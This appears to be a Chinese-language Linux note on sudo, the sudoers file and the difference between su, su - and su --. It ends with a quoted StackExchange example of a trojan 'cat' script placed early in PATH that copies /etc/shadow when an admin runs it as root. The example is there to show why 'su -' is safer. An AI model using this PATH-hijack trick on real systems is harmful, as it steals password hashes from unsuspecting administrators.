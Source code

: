 ```yaml
---
title: Linux - sudo
categories:
  - Linux
tags:
  - sudo
---
```


sudo 命令用于临时提升权限。

<!--more-->

在使用Linux系统过程中，通常情况下，我们都会使用普通用户进行日常操作， 而root用户
只有在权限分配及系统设置时才会使用，而root用户的密码也不可能公开。

普通用户执行到系统程序时，需要临时提升权限，sudo就是我们常用的命令，仅需要输入当
前用户密码，便可以完成权限的临时提升。

在使用sudo命令的过程中，我们经常会遇到当前用户不在sudoers文件中的提示信息， 如果
解决该问题呢？通过下面几个步骤，可以很简单的解决

```bash
[ssy@localhost]$ sudo ls
ssy user not in sudoers file
```

1、切换到root用户权限

```bash
$ su root
```

2、查看/etc/sudoers文件权限，如果只读权限，修改为可写权限

```bash
$ ls -l /etc/sudoers
-r--r-----. 1 root root 4030 9月  25 00:57 /etc/sudoers

$ chmod u+w /etc/sudoers

$ ls -l /etc/sudoers
-rw-r-----. 1 root root 4030 9月  25 00:57 /etc/sudoers
```

3、执行vi命令，编辑/etc/sudoers文件，添加要提升权限的用户；在文件中找到root
ALL=(ALL) ALL，在该行下添加提升权限的用户信息，如：

    root    ALL=(ALL)       ALL
    ssy     ALL=(ALL)       ALL
    说明：格式为（用户名    网络中的主机=（执行命令的目标用户）    执行的命令范围）

4、保存退出，并恢复/etc/sudoers的访问权限为440

```bash
$ chmod u-w /etc/sudoers

$ ls -l /etc/sudoers
-r--r-----. 1 root root 4030 9月  25 00:57 /etc/sudoers
```

5、切换到普通用户，测试用户权限提升功能

！！不用修改 sudoers 文件的权限，切换到 root 用户后，可直接使用 `:w!` 强制写入更改

## su 和 sudo



## su 和 su - 和 su --

`su -` 会在切换用户后调用登录 shell，登录 shell 会重置大部分的环境变量，为切换的
用户提供一个干净的基础，如 `~` 就表示 root 的家目录

`su` 只是切换用户，环境变量几乎和切换前的老用户没什么区别，如 `~` 仍表示切换前用
户的家目录

`su --`  等价于 `su`


`--` is a flag that most programs interpret as "nothing after this should be taken as a flag". Useful for greping for things which start with a dash. – David Mackintosh Feb 9 '11 at 4:43

`su --` is NOT the same as `su -` : `--` tells an getopt(s) (or similar) option handler to stop processing the command line for further options (usefull for example if the rest contains filenames which could start with an '-'). Ie, in "rm -i -- -f" : `-f` is then treated as a regular argument, so here as the name of the file to `rm -i`, and not as an additionnal `-f` option to the rm command. So `su -- ` is just `su` and not `su -` ! So `su --` would be as unsafe to the (funny and instructive) example givan by wag. Use su -. – Olivier Dulac Dec 26 '12 at 15:05


因为 su 盗用 root 密码：

https://unix.stackexchange.com/questions/7013/why-do-we-use-su-and-not-just-su

Imagine, you're a software developer with normal user access to a machine and your ignorant admin just won't give you root access. Let's (hopefully) trick him.

```bash
$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; }
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0

$ chmod +x /tmp/evil_bin/cat
$ PATH="/tmp/evil_bin:$PATH"
```

Now, you ask your admin why you can't cat the dummy file in your home folder, it just won't work!

```bash
$ ls -l /home/you/dummy_file
-rw-r--r-- 1 you wheel 41 2011-02-07 13:00 dummy_file
$ cat /home/you/dummy_file
/bin/cat: Permission denied!
```

If your admin isn't that smart or just a bit lazy, he might come to your desk and try with his super-user powers:

```bash
$ su
Password: ...
# cat /home/you/dummy_file
Some important dummy stuff in that file.
# exit
```

Wow! Thanks, super admin!

```bash
$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2011-02-07 13:02 /tmp/shadow_copy
He, he.
```

You maybe noticed that the corrupted $PATH variable was not reset. This wouldn't have happened, if the admin invoked su - instead.

